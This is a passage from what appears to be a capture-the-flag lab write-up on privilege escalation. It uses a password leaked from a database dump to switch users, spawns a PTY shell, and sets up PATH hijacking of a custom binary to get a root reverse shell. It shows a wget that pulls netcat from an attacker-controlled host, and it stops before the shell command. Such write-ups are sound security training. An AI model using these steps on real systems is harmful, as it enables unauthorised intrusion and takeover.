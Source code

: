 ```sql
/*!40014 SET FOREIGN_KEY_CHECKS=@OLD_FOREIGN_KEY_CHECKS */;
/*!40014 SET UNIQUE_CHECKS=@OLD_UNIQUE_CHECKS */;
/*!40101 SET CHARACTER_SET_CLIENT=@OLD_CHARACTER_SET_CLIENT */;
/*!40101 SET CHARACTER_SET_RESULTS=@OLD_CHARACTER_SET_RESULTS */;
/*!40101 SET COLLATION_CONNECTION=@OLD_COLLATION_CONNECTION */;
/*!40111 SET SQL_NOTES=@OLD_SQL_NOTES */;
```

We see this in the returned output
```sql
INSERT INTO `login` VALUES (1,'admin','Th3s3usW4sK1ng');
```
## User.txt
We can simply su theseus with this information to ascend our access privelages past www-data

```bash
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@ubuntu:/$ su - theseus
su - theseus
Password: Th3s3usW4sK1ng

theseus@ubuntu:~$ cat /home/theseus/user.txt
cat /home/theseus/user.txt
ca4d{...}
```

We also spawn a tty shell as using the binary `su` needs a proper terminal so we can go ahead and read the flag.



# Root

## Enumeration

After some enum we find a binary called sysinfo which is infact a custom built bianry.

we will use the $PATH environment variable in conjunction with a bash script and sysinfo.

## The attack
Here is the basic login of our attack:

We will set the `$PATH` as `/tmp` where our file will be located. This will make sysinfo use fdisk so that we can create a custom script which will run containing a netcat command that we will place inside to try and get our reverse shell as root.


```bash
theseus@ubuntu:~$ wget http://10.10.14.26:8000/nc                                                      
wget http://10.10.14.26:8000/nc                                                                        
--2020-08-21 10:31:03--  http://10.10.14.26:8000/nc                                                    
Connecting to 10.10.14.26:8000... connected.                                                           
HTTP request sent, awaiting response... 200 OK                                                         
Length: 35520 (35K) [application/octet-stream]                                                         
Saving to: ‘nc’                                                                                        
                                                                                                       
nc                  100%[===================>]  34.69K  --.-KB/s    in 0.03s                           
```